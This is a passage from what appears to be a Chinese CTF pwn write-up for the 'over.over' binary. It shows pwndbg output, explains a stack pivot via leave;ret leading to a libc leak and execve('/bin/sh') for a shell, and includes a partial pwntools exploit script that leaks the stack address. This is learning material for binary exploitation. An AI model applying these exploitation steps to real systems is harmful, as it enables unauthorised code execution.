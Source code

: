 ```C
 RIP  0x4006b9 ◂— call   0x400530
─────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────
 ► 0x4006b9    call   puts@plt <0x400530>
        s: 0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')

   0x4006be    leave
   0x4006bf    ret

   0x4006c0    push   rbp
   0x4006c1    mov    rbp, rsp
   0x4006c4    sub    rsp, 0x10
   0x4006c8    mov    dword ptr [rbp - 4], edi
   0x4006cb    mov    qword ptr [rbp - 0x10], rsi
   0x4006cf    mov    rax, qword ptr [rip + 0x20098a] <0x601060>
   0x4006d6    mov    ecx, 0
   0x4006db    mov    edx, 2
─────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────
00:0000│ rax rdi rsi rsp  0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')
... ↓
───────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────
 ► f 0           4006b9
   f 1           400715
   f 2     7ff756de02b1 __libc_start_main+241
Breakpoint *0x4006B9
pwndbg> stack 15
00:0000│ rax rdi rsi rsp  0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')
... ↓
0a:0050│ rbp              0x7ffceaf111b0 —▸ 0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15
0b:0058│                  0x7ffceaf111b8 —▸ 0x400715 ◂— test   eax, eax
0c:0060│                  0x7ffceaf111c0 —▸ 0x7ffceaf112b8 —▸ 0x7ffceaf133db ◂— './over.over'
0d:0068│                  0x7ffceaf111c8 ◂— 0x100000000
0e:0070│                  0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15
pwndbg> distance 0x7ffceaf111d0 0x7ffceaf11160
0x7ffceaf111d0->0x7ffceaf11160 is -0x70 bytes (-0xe words)
```

leak 出栈地址后, 我们就可以通过控制 rbp 为栈上的地址(如 0x7ffceaf11160), ret addr 为 leave ret 的地址来实现控制程序流程了, 比如我们可以在 0x7ffceaf11160 + 0x8 填上 leak libc 的 rop chain 并控制其返回到 sub\_400676 函数来 leak libc, 然后在下一次利用时就可以通过 rop 执行 system("/bin/sh") 或 execve("/bin/sh", 0, 0)来 get shell 了, 这道题目因为输入的长度足够, 我们可以布置调用 execve("/bin/sh", 0, 0) 的利用链, 这种方法更稳妥(system("/bin/sh") 可能会因为 env 被破坏而失效), 不过由于利用过程中栈的结构会发生变化, 所以一些关键的偏移还需要通过多次调试来确定

#### exp
```python
from pwn import *
context.binary = "./over.over"

def DEBUG(cmd):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

io = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

io.sendafter(">", 'a' * 80)
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
success("stack -> {:#x}".format(stack))


#  DEBUG("b *0x4006B9\nc")
```